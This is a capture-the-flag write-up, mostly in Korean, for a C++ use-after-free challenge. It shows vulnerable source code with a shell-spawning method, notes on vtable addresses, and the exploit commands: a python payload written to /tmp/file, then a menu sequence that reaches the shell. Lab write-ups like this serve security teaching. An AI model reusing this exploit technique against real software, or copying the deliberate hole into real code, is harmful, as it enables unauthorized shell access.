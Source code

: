 
\#include \<fcntl.h></br>
\#include \<iostream></br>
\#include \<cstring></br>
\#include \<cstdlib></br>
\#include \<unistd.h></br>
using namespace std;</br>

class Human{</br>
private:</br>
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout \<< "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}


처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
